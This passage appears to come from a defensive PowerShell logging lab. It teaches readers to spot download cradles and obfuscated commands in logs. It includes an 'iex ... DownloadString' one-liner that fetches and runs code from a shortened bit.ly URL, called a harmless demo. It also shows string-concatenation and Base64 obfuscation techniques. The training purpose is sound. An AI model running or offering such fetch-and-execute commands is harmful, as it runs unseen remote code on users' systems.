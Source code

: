 One [research report](https://unit42.paloaltonetworks.com/unit42-pulling-back-the-curtains-on-encodedcommand-powershell-attacks/) indicates this is the #1 method used in PowerShell malware.

1. The most famous, harmless demo of this technique is the ASCII Rick Roll. Try this in your PowerShell console:

    `iex (New-Object Net.WebClient).DownloadString("http://bit.ly/e0Mw9w")`

2. Now look for fingerprints in the logging areas you learned so far in this lab.

---

### 1.3.2 Obfuscation

What good are logs if you cannot find malicious commands in them?
That is the goal of obfuscation, confusing both the human reader and the computer parser to hide badness.
One [research report](https://www.symantec.com/blogs/threat-intelligence/powershell-threats-grow-further-and-operate-plain-sight) suggests that only 4% of PowerShell malware uses this technique.
This is all the more reason to proactively implement logging in your environment.
The most famous toolkit for this is [Invoke-Obfuscation](https://www.bing.com/search?q=invoke-obfuscation).
Add this toolkit to your future research list.

Obfuscation can involve the following techniques:
- Aliases, abbreviations, upper/lower case, escape characters, string concatenation
- Calculated commands extrapolated from byte arrays
- Base64 encoded commands
- Layered combinations of these techniques
- And more

Lucky for us PowerShell logging will capture these in the clear once devolved into the executed command.
This is not fool-proof, however.
For example, [Invoke-Obfuscation](https://www.bing.com/search?q=invoke-obfuscation) can create commands that do not fully unravel when displayed in the clear text logging.

In this exercise we will apply multiple techniques to obscure a harmless command, execute it, and then see what is capture in the logs.

1. In a fresh PowerShell session execute the following command that uses an alias and string concatenation:

    `iex ”’$(“B” + "e sure to" + ' drink yo' + 'ur Oval' + "tine!”)’”`

> **NOTE** - This example obfuscation includes *straight* quotes and *curly* quotes. This can cause character encoding issues during lab file handling. You may need to convert all quotes to straight quotes if the command fails.

2. Now create a Base64 encoding of the command:

```
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes(@"
iex ”’$(“B” + "e sure to" + ' drink yo' + 'ur Oval' + "tine!”)’”
"@
))
```
